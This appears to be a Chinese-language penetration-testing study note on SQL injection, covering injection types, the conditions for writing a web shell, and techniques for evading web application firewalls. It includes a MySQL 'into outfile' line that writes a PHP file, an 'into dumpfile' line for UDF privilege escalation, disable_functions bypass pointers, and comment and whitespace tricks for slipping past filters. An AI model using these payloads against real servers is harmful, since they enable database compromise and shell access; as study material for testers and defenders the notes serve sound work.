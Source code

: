 1. 写shell用什么函数？
    - `select '<?php phpinfo()> into outfile 'D:/shelltest.php'`
    - `dumpfile`
    - `file_put_contents`
2. outfile不能用了怎么办？ `select unhex('udf.dll hex code') into dumpfile 'c:/mysql/mysql server 5.1/lib/plugin/xxoo.dll';`可以UDF提权 <https://www.cnblogs.com/milantgh/p/5444398.html>
3. dumpfile和outfile有什么不一样？outfile适合导库，在行末尾会写入新行并转义，因此不能写入二进制可执行文件。
4. sleep()能不能写shell？
5. 写shell的条件？
    - 用户权限
    - 目录读写权限
    - 防止命令执行：`disable_functions`，禁止了`disable_functions=phpinfo,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source`，但是可以用dl扩展执行命令或者ImageMagick漏洞 <https://www.waitalone.cn/imagemagic-bypass-disable_function.html>
    - open_basedir: 将用户可操作的文件限制在某目录下

### 注入类型

1. 基于报错注入
2. 基于布尔的注入，根据返回页面判断条件真假的注入
3. 基于时间的盲注，不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
4. 宽字节注入
5. 联合查询，可以使用 union 的情况下的注入。
6. 堆查询注入，可以同时执行多条语句的执行时的注入。

### SQL注入的原理

通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。通常未经检查或者未经充分检查的用户输入数据或代码编写问题，意外变成了代码被执行。

### 过waf

> <https://blog.csdn.net/wjy397/article/details/53263281>

1. 确定waf类型，狗、盾、神、锁、宝、卫士
2. 使用注释符号或者特殊符号或者多个特殊符号重复

```
# 
--
-- - //5.6.12特性，需要加空格
--+
//
/**/ //c风格注释
/**//**/  //多个注释
/*letmetest*/
;


# 科学记数法
id=0e1union select



# 空白字符
SQLite3 0A 0D 0C 09 20 
MySQL5 09 0A 0B 0C 0D A0 20 
PosgresSQL 0A 0D 0C 09 20 
Oracle 11g 00 0A 0D 0C 09 20 
MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
```
